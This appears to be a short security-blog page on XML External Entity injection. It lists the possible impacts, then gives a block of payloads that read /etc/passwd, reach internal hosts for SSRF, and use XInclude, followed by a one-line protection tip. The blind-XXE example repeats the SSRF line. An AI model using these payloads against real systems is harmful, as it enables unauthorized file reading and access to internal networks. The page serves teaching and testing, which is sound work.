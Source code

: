 ```yaml
---
title: 'XML External Entity Injection (XXE)'
description: "Allows an attacker to interfere with an application's processing of XML data."
pubDate: 'Jul 08 2022'
heroImage: '/xxe.jpeg'
---
```


### Information

The DTD (Document Type Definition) is used to validate the structure of an XML file and may contain references to external resources, such as files on the server system.

### How to Attack

- SSRF
- PHP Object Injection (through phar://)
- XSS/CSRF
- Local File Disclosure
- RCE
- Local Port Scanning‌

```html
<!-- Retrieve files -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<!-- SSRF attacks -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable_site.com/"> ]>

<!-- Blind XXE -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable_site.com/"> ]>

<!-- XInclude attacks -->

<!-- XInclude is a part of the XML specification that allows an XML document to be built from sub-documents -->

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

<!-- Modified content type -->
<!-- POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52 -->

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>

```

### How to protect

The application's XML parsing library supports potentially dangerous XML features that the application does not need, disable those thins.
